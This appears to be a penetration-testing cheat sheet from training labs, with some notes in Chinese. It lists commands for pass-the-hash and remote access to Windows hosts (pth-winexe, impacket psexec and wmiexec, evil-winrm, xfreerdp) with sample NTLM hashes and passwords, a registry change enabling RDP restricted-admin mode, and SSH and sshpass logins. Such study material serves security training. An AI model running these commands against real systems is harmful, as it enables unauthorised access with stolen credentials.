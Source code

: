 # windows

## pass the hash
```
pth-winexe -U offsec%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //10.11.0.22 cmd
```

## psexec
```
./psexec.py [[domain/]username[:password]@]<targetName or address>
./psexec.py -hashes <LM:NT> administrator@10.10.10.103 #Pass-the-Hash
psexec \\192.168.122.66 -u Administrator -p 123456Ww
psexec \\192.168.122.66 -u Administrator -p q23q34t34twd3w34t34wtw34t # Use pass the hash

impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:0109d7e72fcfe404186c4079ba6cf79c administrator@172.16.1.5
impacket-psexec 'cyber_adm:Passw0rd!'@172.16.1.24 

impacket-wmiexec -hashes :7facdc498ed1680c4fd1448319a8c04f administrator@172.16.4.31
```

```
python3 /usr/share/doc/python3-impacket/examples/psexec.py  -hashes "af636dea707fa9cf431562c90e8a4044:af636dea707fa9cf431562c90e8a4044" Administrator@10.11.1.222
```


## evil-winrm

```
evil-winrm -i 10.11.1.221 -u 'john' -p 'easyas123'

evil-winrm -i 192.168.140.10 -u 'offsec' -H '2892d26cdf84d7a70e2eb3b9f05c425e'                              # pass the hash
```


## rdp
```
xfreerdp /u:offsec /p:'lab' /v:192.168.140.10 +clipboard 
xfreerdp /u:Administrator /pth:'' /v:10.11.1.221 +clipboard 

xfreerdp /v:thmwrk1.za.tryhackme.loc /u:t2_henry.harvey /p:'max.123456'

xfreerdp /u:i.wood /p:'7@@$if*7l0E!9zFs' /w:600 /h:500 /v:10.10.120.102

rdesktop -d <domain> -u <username> -p <password> <IP>

rdesktop -u offsec -p lab 192.168.120.11 -g 100% -x 0x80

```


网络账户登录，不需要明文密码
>网络登录不需要明文凭证，也不会将其存储在内存中，本质上是禁用了单点登录。这种类型的登录方式通常由服务账户使用。 （A network login does not require clear text credentials and will not store them in memory, essentially disabling single sign-on. This type of login is commonly used by service accounts.）

开启restrictedadmin模式
```
New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0
```

关闭restrictedadmin模式
```
Remove-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin
```



# linux

普通登录
```
ssh root@10.10.10.233
```

证书登录
```
ssh root@10.10.10.233 -i id_rsa
```

带密码
```
sshpass -p '这里填ssh密码' ssh aaronkilik@10.42.0.1 '这里填要执行的linux命令' 

sshpass -p 'my_pass_here' ssh aaronkilik@10.42.0.1 'df -h' 
```



